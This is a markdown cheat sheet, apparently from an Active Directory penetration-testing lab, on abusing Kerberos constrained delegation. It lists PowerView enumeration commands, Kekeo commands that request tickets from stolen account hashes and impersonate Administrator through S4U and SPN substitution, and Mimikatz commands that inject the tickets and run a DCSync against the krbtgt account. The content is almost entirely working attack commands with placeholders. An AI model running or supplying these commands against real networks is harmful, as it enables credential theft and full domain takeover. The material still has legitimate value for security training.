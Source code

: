 # Constrained Delegation

#### Enumerate

**Enumerate users with constrained delegation enabled**

```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

**Enumerate computers with constrained delegation enabled**

```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

## Constrained delegation User

**Requesting TGT with kekeo**

```
./kekeo.exe
Tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
```

**Requesting TGS with kekeo**

```
Tgs::s4u /tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
```

**Use Mimikatz to inject the TGS ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

## Constrained delegation Computer

**Requesting TGT with a PC hash**

```
./kekeo.exe
Tgt::ask /user:dcorp-adminsrv$ /domain:<domain> /rc4:<hash>
```

**Requesting TGS**

No validation for the SPN specified

```
Tgs::s4u /tgt:<kirbi file> /user:Administrator@<domain> /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

**Using mimikatz to inject TGS ticket and executing DCsync**

```
Invoke-Mimikatz -Command '"Kerberos::ptt <kirbi file>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<shortdomain>\krbtgt"'
```
